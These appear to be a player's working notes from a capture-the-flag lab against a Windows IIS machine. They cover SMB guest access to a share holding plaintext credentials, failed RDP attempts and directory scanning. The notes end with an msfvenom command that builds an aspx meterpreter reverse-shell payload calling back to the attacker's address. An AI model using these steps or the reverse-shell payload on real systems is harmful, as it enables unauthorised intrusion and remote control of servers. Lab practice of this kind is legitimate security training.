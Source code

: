 ### Relevant ###

export IP=10.10.137.137

# Http-TRACE
nmap showed that http-trace method was enabled..so tried that but no luck there...
because i tried -X TRACE with curl but no response was recieved:so i am assuming that its not enabled anymore(Because TRACE works only on older versions of browsers)

# SMB:

nmap showed smb was enabled and guest login was also enabled:

found 4 shares:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk      

nt4wrksv had guest login enabled and found passwords.txt

Found an encoded password:Decoded:Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
will try xfreerdp into the machine
# Xfreerdp:
xfreerdp /u:Bill /p:Juw4nnaM4n420696969/v:10.10.200.161$$ /v:10.10.200.161

This didnt work:
#TODO:Figure out where to use the credentials found

Tried smbclient to access the other available shares but got access denied or NT_STATUS_INVALID_INFO_CLASS listing \*

nmap -p- showed 2 more ports having http services enabled..but running bobuster against them isnt working mayb my wordlist is incorrect...

#TODO: use my kali to check if thats the case(OF wordlist)

well it turns out it was my wordlist :/....

got that 'nt4wrksv' is a directory 
and its the same as the smbshare...

using msfvenom to have a rev_shell (In aspx because its windows IIS (I didnt know that ofc lol))

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.40.42 LPORT=5555 -f aspx -o meter_rev_shell.aspx  